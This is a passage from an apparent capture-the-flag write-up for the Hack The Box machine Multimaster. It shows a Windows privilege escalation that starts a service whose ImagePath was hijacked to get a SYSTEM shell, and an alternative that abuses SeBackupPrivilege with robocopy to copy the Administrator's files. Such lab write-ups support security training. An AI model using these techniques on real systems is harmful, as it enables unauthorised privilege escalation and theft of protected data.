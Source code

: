 {% tab title="Start Service" %}
```powershell
Start-Service wuauserv
```
{% endtab %}
{% endtabs %}

<figure><img src="../../.gitbook/assets/multi_imagepath.png" alt=""><figcaption><p>Figure 31: Modifying the service's ImagePath.</p></figcaption></figure>

We get a `SYSTEM` shell back and we can grab the `root.txt` file 🚩(Figure 32).&#x20;

<figure><img src="../../.gitbook/assets/multi_root.png" alt=""><figcaption><p>Figure 32: Multimaster is rooted!</p></figcaption></figure>

## Beyond Root

### SeBackupPrivilege

Another way to root the box is to use the [`SeBackupPrivilege`](../../tl-dr/active-directory/groups/server-operators.md#accessing-files) and copy the `Administrator`'s directory elsewhere.

{% code overflow="wrap" %}
```powershell
# copying the administrator desktop
*Evil-WinRM* PS C:\Windows\System32\spool\drivers\color> robocopy /b C:\users\administrator\desktop\ C:\Windows\System32\spool\drivers\color

-------------------------------------------------------------------------------
   ROBOCOPY     ::     Robust File Copy for Windows
-------------------------------------------------------------------------------

  Started : Monday, April 1, 2024 8:55:08 AM
   Source : C:\users\administrator\desktop\
     Dest : C:\Windows\System32\spool\drivers\color\

    Files : *.*

  Options : *.* /DCOPY:DA /COPY:DAT /B /R:1000000 /W:30
```